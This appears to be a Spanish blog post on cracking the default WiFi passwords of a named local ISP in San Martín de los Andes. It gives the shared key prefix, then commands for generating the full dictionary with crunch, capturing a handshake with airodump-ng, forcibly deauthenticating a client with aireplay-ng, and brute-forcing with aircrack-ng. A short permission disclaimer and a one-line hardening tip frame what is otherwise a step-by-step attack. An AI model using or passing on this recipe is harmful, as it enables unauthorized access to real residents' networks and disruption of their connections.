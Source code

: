 ```yaml
---
title: "WiFi Cooperativo en la aldea de montaña"
date: 2021-01-13T00:00:00-03:00
author: "bronxi"

draft: false

tags: ["wifi","aircrack","brute force"]
categories: ["wifi","brute foce"]
featuredImage: "/images/wifialdea/wifipass.png"
lightgallery: true

---
```



# WiFi Cooperativo en la aldea de montaña

*Esta prueba se realizó en un entorno controlado con los permisos de los clientes adjudicatarios de los dispositivos involucrados, con el fin único de reconocer el nivel de seguridad de acceso a los dispositivos wifi desde una perspectiva ética de investigación en InfoSec.*

Pasé tres semanas en San Martín de los Andes y noté que las claves WiFi por defecto del único proveedor de Internet tienen un patrón sumamente sencillo. Poseen 8 dígitos y todas comienzan con los mismos cuatro caracteres y los últimos 4 son alfanuméricos aleatorios. Por lo que existen solamente 1679616 posibilidas. Para generar un diccionario con dichas líneas, utilizaré la herramienta crunch.

## Instalar crunch & dictionary
Pueden intalarla en cualquier distribución Debian con el siguiente comando (Kali ya lo trae):

> sudo apt-get install -y crunch


El comando para crear este diccionario es muy sencillo

> crunch 8 8 abcdefghijklmnopqrstuvwxyz0123456789 -t cote@@@@ -o cotexxxx.txt

El primer 8 es el mínimo de caracteres de las claves y el segundo 8 el máximo de caracteres. Aquí solo necesitamos claves de 8 caracteres.
El string "abcdefghijklmnopqrstuvwxyz0123456789" que le sigue determina los caracteres a utilizar para la porción aleatoria de las claves.
La opción "-t" especifica un patrón para los caracteres aleatorios. En este caso es @, que se trata de minúsculas y también tomará los números que hemos indicado anteriormente. A esto le sigue la estructura del patrón "cote@@@@". Las @s serán los caracteres reemplazados por todas las variantes de la a a la z y del 0 al 9.
La opción "-o" indica la salida. Nombramos el archivo como nos guste.

__Ahora contamos con un diccionario que contiene todas las claves por defecto de la ciudad__


El siguiente paso es conseguir el archivo que contenga el handshake cifrado de la red WiFi. Para ello utilizamos aircrack-ng.

## Instalar aircrack
Para instalarlo en cualquier versión Debian (Kali también lo trae):

> sudo apt install aircrack-ng

## Our WiFi Interface

Nos fijamos el nombre de nuestra placa con ifconfig

> ifconfig

> wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.38  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fa80::4g23:98l6:ka0:3436  prefixlen 64  scopeid 0x20<link>
        ether 59:96:1b:95:b0:2d  txqueuelen 1000  (Ethernet)
        RX packets 275495  bytes 308923532 (308.9 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 103650  bytes 21966607 (21.9 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


Antes de comenzar realizamos un check kill para evitar cualquier conflicto.

> sudo airmon-ng check kill


## Monitor Mode

Luego ponemos nuestra placa wifi en modo monitos:

> sudo airmon-ng start wlan0

## Redes WiFi en nuestro aire
Escaneamos las redes:

> sudo airodump-ng start wlan0mon

## Escuchando por un handshake
Una vez elegido el accesspoint al que queremos acceder, con ctrl + c detenemos el escaneo y nos pondremos a la escucha del accesspoint seleccionado:

> sudo airodump-ng -c 6 -b 00:01:12:56:32:56 -w nombredelarchivocondatosescuchados wlan0mon

Acá "-w" indica el nombre del archivo en el que se guardarán los datos capturados. "-c" indica en canal por el que trabaja el accesspoint. "-b" indica la MAC del accesspoint (BSSID). Por último, la interface que usamos, en este caso "wlan0mon". Al darle enter comenzará a escuchar ese accesspoint.

Veremos la cantidad de paquetes capturados y perdidos. En al parte inferior de la terminal, se observan los clientes conectados al accesspoint, elegimos uno para deantenticar y obtener el handshake (paquete que contiene la clave WiFi encriptada).

## Deauntenticar al cliente
Mientras el proceso anterior continúa corriendo, en otra terminal realizamos una deautenticación del cliente con los datos copiados. Es decir, del BSSID (accesspoint) y de una STATION (cliente).

> aireplay-ng -0 10 -a 00:01:12:56:32:56 -c 00:00:10:A0:05:06 wlan0mon

Acá "-0" indica la orden deauntenticar. "-a" la MAC del accesspoint. "-c" la MAC del cliente a deauntenticar. Por último, la interfaz que utilizamos en modo monitor, en este caso "wlan0mon".

Al conseguir el handshake, se notificará en la terminal que está escuchando, abierta en el punto *Escuchando por un handshake* Se obersva el mensaje en la parte superior derecha.

Verán algo así:

![Handshake](/images/wifialdea/handshake.png "Handshake")

## Brute force final
Por último, utilizamos fuerza bruta para probar todas las claves del diccionario sobre el archivo que contiene el handshake con el siguiente comando:

> sudo aircrack-ng -w cotexxxx.txt -b 00:01:12:56:32:56 nombredelarchivocondatosescuchados.cap

> KEY FOUND! [ cotefr33 ]

## Recomendaciones:
- Generar claves de diez caracteres en la que todos sus caracteres sean aleatorios.

¡Disfruten el lago, la montaña y un WiFi seguro!
